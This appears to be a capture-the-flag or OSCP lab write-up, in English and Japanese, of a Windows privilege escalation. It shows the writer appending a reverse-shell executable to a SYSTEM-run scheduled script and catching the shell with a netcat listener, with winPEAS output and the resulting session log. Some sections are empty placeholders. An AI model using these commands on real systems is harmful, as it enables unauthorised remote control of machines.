


## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | Not specified |
| Primary Entry Vector      | writable-script-discovery, scheduled-task-abuse |
| Privilege Escalation Path | writable-maintenance-script-abuse |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)


## Nmap


### Not implemented (or log not saved)


### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

```
No credentials obtained.
```

このタスクはローカル権限昇格が主目的のため、ネットワーク再スキャンは省略。  
既に低権限シェルがある前提で、ACL不備と定期実行スクリプトの組み合わせを探します。

## Rustscan

本タスク範囲外（既存シェル前提のため省略）。

## Nmap

本タスク範囲外（既存シェル前提のため省略）。

winPEAS の結果から、標準外ディレクトリ内でユーザー書き込み可能な実行対象を優先確認します。  
この時点で重要なのは「書ける」だけではなく、「高権限コンテキストで実行されるかどうか」です。  
`C:\DevTools\CleanUp.ps1` は後続の権限昇格に直結する候補でした。

╔══════════╣ Searching executable files in non-default folders with write (equivalent) permissions (can be slow)
     File Permissions "": Users [WriteData/CreateFiles]
     File Permissions "C:\Users\user\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\RunWallpaperSetup.cmd": user [AllAccess]

╔══════════╣ Looking for Linux shells/distributions - wsl.exe, bash.exe

       /---------------------------------------------------------------------------------\

💡 Why this works: winPEAS は ACL, サービス, 自動実行, 既知ミスコンフィグを一括で拾えるため、手作業の抜け漏れを減らせます。特に `WriteData/CreateFiles` といった権限表示は、改ざん可能ファイルの早期特定に有効です。次に「そのファイルが誰権限で、どの頻度で実行されるか」を確認することで exploitability が確定します。

`CleanUp.ps1` が SYSTEM 文脈で実行されることを利用し、低権限ユーザーから実行行を追記して高権限プロセス起動を狙います。  
攻撃側では待受リスナーを先に立て、タスク実行タイミングで reverse shell を受け取ります。  
この手法は「writable script + privileged scheduler」の組み合わせが成立した時に非常に再現性が高いです。

echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
rlwrap -cAri nc -lvnp 53
❌[22:19][CPU:10][MEM:44][TUN0:192.168.150.224][/tools/windows]
🐉 > rlwrap -cAri nc -lvnp 53
listening on [any] 53 ...
connect to [192.168.150.224] from (UNKNOWN) [10.65.168.180] 49793
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>


💡 Why this works: SYSTEM が実行する `CleanUp.ps1` に任意コマンドを追記できるため、実質的に権限委譲されたコード実行になります。タスクトリガーが発火すると追記した `reverse.exe` が SYSTEM で実行され、攻撃側リスナーに接続が返ります。これは ACL ミスコンフィグを利用した典型的な Windows privilege escalation です。

flowchart LR
    subgraph SCAN["🔍 SCAN"]
        direction TB
        S1["Local enumeration context"]
        S2["ACL candidate extraction with winPEAS"]
        S1 --> S2
    end

    subgraph INITIAL["💥 Initial Intrusion"]
        direction TB
        I1["Low-priv shell"]
        I2["C:\\DevTools\\CleanUp.ps1 writable confirmation"]
        I1 --> I2
    end

    subgraph PRIVESC["⬆️ Privilege Escalation"]
        direction TB
        P1["echo reverse.exe >> CleanUp.ps1"]
        P2["SYSTEM shell received by nc listener"]
        P1 --> P2
    end

    SCAN --> INITIAL --> PRIVESC

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.



💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- netcat
- nc
- winpeas
- sudo
- GTFOBins
